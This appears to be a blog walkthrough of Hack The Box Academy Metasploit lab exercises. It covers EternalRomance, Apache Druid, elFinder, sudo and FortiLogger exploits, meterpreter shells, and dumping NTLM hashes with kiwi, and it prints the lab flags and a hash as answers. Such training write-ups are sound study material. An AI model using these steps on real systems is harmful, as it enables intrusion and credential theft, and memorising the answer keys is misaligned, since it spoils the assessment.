

# Using the Metasploit Framework

Created by: **4bh1-03**

Welcome back to my **`HTB Junior Cybersecurity Analyst (CJCA)`** certification journey! In this module, we’re stepping into one of the most powerful tools in offensive security: **`Metasploit Framework`**.

Metasploit isn’t just a tool—it’s a complete exploitation ecosystem. From reconnaissance to post-exploitation, it enables security professionals to efficiently identify, validate, and weaponize vulnerabilities across target systems. Whether you're a pentester or a SOC analyst, mastering Metasploit is a fundamental skill in understanding real-world attack scenarios.


Whether you're following along with HTB labs or building your own practice environment, this module will give you hands-on experience with one of the most essential tools in cybersecurity.

Let’s dive in and start exploiting.

---

# Section 4 : Modules

### **Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the answer.**

Start the `msfconsole` and search for Eternal Blue.



The module with the `index number 0` is what we want. To use it type `use 0` . Enter the command `show options` to view the options that have to be set for the module in use.


We have to set the `RHOSTS` and `LHOST` options in the list shown above. We can do that by executing:

```bash
set RHOSTS <Target_IP>
set LHOST <Your_IP> #Can be found using ifconfig
```

After setting all the required options, enter `run` to exploit the vulnerability.


Once the `meterpreter` session is opened on the target machine, read the `flag.txt` file from the Administrator User’s Desktop.


**Answer :** `HTB{MSF-W1nD0w5-3xPL01t4t10n}` 

---

# Section 6 : Payloads

### **Exploit the Apache Druid service and find the flag.txt file. Submit the contents of this file as the answer.**

Search any exploits related to Apache Druid Remote Code Execution in `msfconsole` .


The exploit with `index 0` is the one which we are interested in. To use it type `use 0` and check which options need to be set to run the exploit.


Set the RHOSTS and LHOST by executing the below commands:

```bash
set RHOSTS <Target_IP>
set LHOST <Your_IP>
```

After setting up the required options, run the exploit.


A `meterpreter` session opens up. You can search the flag using the command:

```bash
(Meterpreter 1)(/root/druid) > search -f *flag.txt
```


**Command breakdown:**

| **Component** | **Purpose** |
| --- | --- |
| **`search`** | The core Meterpreter command used to find files on the victim's file system. |
| **`-f`** | The **File Pattern** flag. This tells the tool that the next string is the specific filename or pattern you are looking for. |
| **`*flag.txt`** | The search query. The asterisk (`*`) is a **wildcard** that represents any number of characters. |

Now that you have found the file, view it by typing `cat /root/flag.txt` .


**Answer :** `HTB{MSF_Expl01t4t10n}` 

---

# Section 10 : Sessions & Jobs

### **1. The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?**


**Answer :** `elFinder` 

### 2. **Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?**

Under the `html > head > title` section, you will find the version and a lot more information about elFinder.


Search for any available exploits on [ExploitDB](https://www.exploit-db.com/exploits/51864) or [Rapid7](https://www.rapid7.com/db/modules/exploit/linux/http/elfinder_archive_cmd_injection/).


Search the same exploit on msfconsole.


Use the above module and exploit the target by setting proper options for the module.


Once all the required options are set, run the exploit.


To know the username of the user you have obtained the shell with, execute the command `getuid` .


**Answer :** `www-data` 

### 3. **The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.**

Check the version of sudo by opening an interactive shell on your meterpreter session.


Search for any relevant exploits for the found sudo version.


Background the current session by typing `background` and search for the same exploit on `msfconsole` .


Use the exploit and list the options.


We have to set the `SESSION` and `LHOST` options here. To know the session ID of the previous session, run the `sessions` command and set it accordingly.


Run the exploit after setting the options.


Make sure you are logged in as the root user by executing `getuid` .


Now, search for the `flag.txt` file by running the command:

```bash
(Meterpreter 3)(/tmp) > search -f *flag.txt
```


**Answer :** `HTB{5e55ion5_4r3_sw33t}` 

---

# Section 11 : Meterpreter

### 1. **Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?**

Let’s try running an `nmap` scan inside the `msfdb` . For this, we have to first initialize the msf database.

```bash
msfdb iniit #Create and initializes database.
```

Once the database is initialized, you can verfiy it by opening `msfconsole` and running `db_status` command.


Now, we can start the scan.

```bash
[msf](Jobs:0 Agents:0) >> db_nmap -sCV -p- -Pn -T4 -vv <Target_IP>
```

To view the services discovered, we can just type `services`.


Let’s check the http servers running on the target by manually entering each one of them in the browser. First we will hit the service running on port `5000` .


We discovered a web application named FortiLogger running on the target. Search any relevant exploits related to the same.


Use the module, check the options and set which are required to run the exploit.


Once all the options are set, run the exploit and you will be greeted with a meterpreter session.

Now run `getuid` command to know the user.


**Answer :** `NT AUTHORITY/SYSTEM` 

### 2. **Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.**

Use the command `lsa_dump_sam` to list the `username`, `RID`’s (Relative Identifiers) which are unique identifiers for each user and the `NTLM hashes` for each user, from the local user account database.

If it shows you anything like this:


Load the kiwi extension by typing `load kiwi` .


Once the kiwi extension is loaded, run the command `lsa_dump_sam` .


**Answer :** `cf3a5525ee9414229e66279623ed5c58` 

---